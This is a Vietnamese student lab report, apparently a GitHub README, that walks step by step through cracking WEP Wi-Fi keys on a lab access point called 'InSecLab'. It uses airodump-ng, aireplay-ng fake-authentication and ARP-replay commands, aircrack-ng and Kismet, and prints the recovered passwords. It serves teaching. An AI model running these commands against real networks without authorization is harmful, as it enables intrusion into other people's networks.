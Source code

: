 # Báo cáo đồ án môn học
## 1. Sử dụng Aircrack-ng + Airodump-ng + Aireplay-ng để bẻ khóa các mật mã đơn giản
### Bước 1: Tìm đối tượng để thực hiện tấn công.
Sử dụng **airodump-ng** để tìm kiếm các wifi có mã hóa WEP
```s 
 $ airodump-ng wlan0mon
```
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/airodump-ng.png)
Các thông tin về wifi:
- BSSID: **C0:4A:00:71:34:9c** (là địa chỉ MAC của AP).
- Channel: **11** (kênh giao tiếp của AP).
- ESSID: **InSecLab** (tên của wifi).
- Wifi sử dụng mã hóa **WEP**.

Thực hiện chuyển channel của wlan0mon thành **11** (giống với channel của AP)
```sh
 $ iwconfig wlan0mon channel 11
```

### Bước 2: Kiểm tra Packet Injection
```sh
 $ aireplay-ng -9 -e InSecLab -a C0:4A:00:71:34:9C wlan0mon
```
- -9 là lựa chọn Injection test.
- -e là tên của wifi.
- -a là địa chỉ MAC của AP.
- wlan0mon là wireless interface.

Kết quả nhận được khi thực hiện lệnh trên
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/injection_test.png)
=> Kết quả trả về thành công (**30/30: 100%**)

### Bước 3: Sử dụng airodump-ng để bắt các IV (Initial Vector)
Ở bước này chúng ta sẽ sử dụng ***airodump-ng*** để bắt các **IV** được tạo ra bởi AP.
```sh
 $ airodump-ng -c 11 --bssid C0:4A:00:71:34:9C -w CaptureIV wlan0mon
```
- -c 11 là channel của mạng wifi.
- --bssid **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -w CaptureIV là file chứa những IV bắt được.
- wlan0mon là wireless interface.

![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/CaptureIV.png)

### Bước 4: Sử dụng aireplay-ng để tạo xác thực giả với AP
Nếu không có các kết nối nào khác vào AP thì sẽ không tạo mới các IV. Nên ta sẽ tạo ra các xác thực giả đến AP nhằm tạo ra các IV và bắt nó.
```sh
 $ aireplay-ng -1 0 -e InSecLab -a C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
- -1 nghĩa là xác thực giả.
- 0 là thời gian để gửi lại gói tin.
- -e **InSecLab** là tên của wifi.
- -a **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -h **00:0c:29:b8:bf:f1** là địa chỉ MAC của máy chúng ta.
- **wlan0mon** là wireless interface.

![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/fakeauth.png)
=> Gửi xác thực giả thành công.

### Bước 5: Sử dụng aireplay-ng tăng tín hiệu ARP để tạo ra nhiều IV
```sh
 $ aireplay-ng -3 -b C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/ARP.png)

### Bước 6: Chờ để thu thập đủ IV cho việc crack
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/IVCrack.png)

### Bước 7: Sử dụng aircrack-ng để tìm password của AP
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/solve.png)
- Thời gian để tìm ra password là **0s**
- Password: **1234567890**

## 2. Sử dụng các phần mềm khác nhau để thực hiện việc bẻ khóa các mật mã phức tạp

Sử dụng Kismet để kiểm tra các Wifi xung quanh
```sh
 $ kismet -c wlan0mon
```
Sử dụng giao diện người dùng của Kismet
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/KismetUI.png)

Nhấp vào tên wifi để xem thông tin của wifi đó (trong bài thực hành này là InSecLab)
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/wifiinfo.png)
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/wifiinfo1.png)
- Thông tin bao gồm tên Wifi
- Địa chỉ MAC của AP
- Channel của AP
- Mã hóa WEP

Sau khi thu thập được địa chỉ **MAC**, **ESSID**, **CHANNEL** của AP ta sẽ tiến hành crack nó theo các bước đã trình bày ở trên.

Tiến hành thu thập **IVs**
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/CaptureIV1.png)

Tiến hành crack Wifi
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```

Kết quả
![alt](https://github.com/tantran1999/CrackWEP/blob/master/images/solve1.png)
=> Pass wifi: ***TAN@123tantan***
